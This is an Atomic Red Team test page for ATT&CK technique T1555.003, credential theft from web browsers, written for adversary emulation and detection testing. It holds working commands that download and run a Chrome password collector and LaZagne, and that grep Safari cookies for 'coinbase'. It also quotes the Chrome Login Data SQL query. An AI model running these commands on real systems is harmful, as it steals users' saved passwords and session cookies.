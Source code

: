 # T1555.003 - Credentials from Web Browsers
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1555/003)
<blockquote>Adversaries may acquire credentials from web browsers by reading files specific to the target browser.(Citation: Talos Olympic Destroyer 2018) Web browsers commonly save credentials such as website usernames and passwords so that they do not need to be entered manually in the future. Web browsers typically store the credentials in an encrypted format within a credential store; however, methods exist to extract plaintext credentials from web browsers.

For example, on Windows systems, encrypted credentials may be obtained from Google Chrome by reading a database file, <code>AppData\Local\Google\Chrome\User Data\Default\Login Data</code> and executing a SQL query: <code>SELECT action_url, username_value, password_value FROM logins;</code>. The plaintext password can then be obtained by passing the encrypted credentials to the Windows API function <code>CryptUnprotectData</code>, which uses the victim’s cached logon credentials as the decryption key. (Citation: Microsoft CryptUnprotectData April 2018)
 
Adversaries have executed similar procedures for common web browsers such as FireFox, Safari, Edge, etc.(Citation: Proofpoint Vega Credential Stealer May 2018)(Citation: FireEye HawkEye Malware July 2017) Windows stores Internet Explorer and Microsoft Edge credentials in Credential Lockers managed by the [Windows Credential Manager](https://attack.mitre.org/techniques/T1555/004).

Adversaries may also acquire credentials by searching web browser process memory for patterns that commonly match credentials.(Citation: GitHub Mimikittenz July 2016)

After acquiring credentials from web browsers, adversaries may attempt to recycle the credentials across different systems and/or accounts in order to expand access. This can result in significantly furthering an adversary's objective in cases where credentials gained from web browsers overlap with privileged accounts (e.g. domain administrator).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Run Chrome-password Collector](#atomic-test-1---run-chrome-password-collector)

- [Atomic Test #2 - Search macOS Safari Cookies](#atomic-test-2---search-macos-safari-cookies)

- [Atomic Test #3 - LaZagne - Credentials from Browser](#atomic-test-3---lazagne---credentials-from-browser)


<br/>

## Atomic Test #1 - Run Chrome-password Collector

auto_generated_guid: 8c05b133-d438-47ca-a630-19cc464c4622

A modified sysinternals suite will be downloaded and staged. The Chrome-password collector, renamed accesschk.exe, will then be executed from #{file_path}.

Successful execution will produce stdout message stating "Copying db ... passwordsDB DB Opened. statement prepare DB connection closed properly". Upon completion, final output will be a file modification of $env:TEMP\sysinternals\passwordsdb.

Adapted from [MITRE ATTACK Evals](https://github.com/mitre-attack/attack-arsenal/blob/66650cebd33b9a1e180f7b31261da1789cdceb66/adversary_emulation/APT29/CALDERA_DIY/evals/data/abilities/credential-access/e7cab9bb-3e3a-4d93-99cc-3593c1dc8c6d.yml)
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_path | File path for modified Sysinternals | String | $env:TEMP|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-Location -path "#{file_path}\Sysinternals";
./accesschk.exe -accepteula .;
```

#### Cleanup Commands:
```powershell
Remove-Item #{file_path}\Sysinternals -Force -Recurse -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Modified Sysinternals must be located at #{file_path}
##### Check Prereq Commands:
```powershell
if (Test-Path #{file_path}\SysInternals) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/mitre-attack/attack-arsenal/raw/66650cebd33b9a1e180f7b31261da1789cdceb66/adversary_emulation/APT29/CALDERA_DIY/evals/payloads/Modified-SysInternalsSuite.zip" -OutFile "#{file_path}\Modified-SysInternalsSuite.zip"
Expand-Archive #{file_path}\Modified-SysInternalsSuite.zip #{file_path}\sysinternals -Force
Remove-Item #{file_path}\Modified-SysInternalsSuite.zip -Force
```




<br/>
<br/>

## Atomic Test #2 - Search macOS Safari Cookies

auto_generated_guid: c1402f7b-67ca-43a8-b5f3-3143abedc01b

This test uses `grep` to search a macOS Safari binaryCookies file for specified values. This was used by CookieMiner malware.

Upon successful execution, MacOS shell will cd to `~/Libraries/Cookies` and grep for `Cookies.binarycookies`.
**Supported Platforms:** macOS




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| search_string | String to search Safari cookies to find. | string | coinbase|


#### Attack Commands: Run with `sh`! 


```sh
cd ~/Library/Cookies
grep -q "#{search_string}" "Cookies.binarycookies"
```






<br/>
<br/>

## Atomic Test #3 - LaZagne - Credentials from Browser

auto_generated_guid: 9a2915b3-3954-4cce-8c76-00fbf4dbd014

The following Atomic test utilizes [LaZagne](https://github.com/AlessandroZ/LaZagne) to extract passwords from browsers on the Windows operating system.
LaZagne is an open source application used to retrieve passwords stored on a local computer.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| lazagne_path | Path to LaZagne | Path | PathToAtomicsFolder&#92;T1555.003&#92;bin&#92;LaZagne.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
#{lazagne_path} browsers
```




#### Dependencies:  Run with `powershell`!
##### Description: LaZagne.exe must exist on disk at specified location (#{lazagne_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{lazagne_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{lazagne_path}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/AlessandroZ/LaZagne/releases/download/2.4.3/lazagne.exe" -OutFile "#{lazagne_path}"
```




<br/>
